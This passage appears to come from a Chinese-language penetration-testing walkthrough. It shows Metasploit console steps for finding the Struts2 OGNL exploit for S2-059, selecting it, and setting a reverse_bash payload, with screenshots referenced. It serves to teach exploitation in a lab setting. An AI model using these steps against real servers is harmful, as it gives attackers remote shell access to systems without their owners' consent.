 要收集服务识别与版本等信息，不断搜索并且完善关键词，最后找到我们所需的 **exp**：`exploit/multi/http/struts2_multi_eval_ognl`

```bash
# search exp in metasploit
$ search struts2 type:exploit

# 查看 exp 详情
# 可以直接通过搜索结果编号，也可以通过搜索结果的 Name 字段
$ info <结果编号或 Name 字段>

# 继续完善搜索关键词
$ search S2-059 type:exploit
```

![寻找exp过程2](img/寻找exp过程2.png)

找到我们所需的 exp 后就选择使用，并且选择设置合适的 exp payload

```bash
# 使用符合条件的 exp
$ use exploit/multi/http/struts2_multi_eval_ognl

# 查看可用 exp payloads
$ show payloads

# 使用合适的 exp payload
$ set payload payload/cmd/unix/reverse_bash
```

![找到并使用合适的exp_payload](img/找到并使用合适的exp_payload.png)
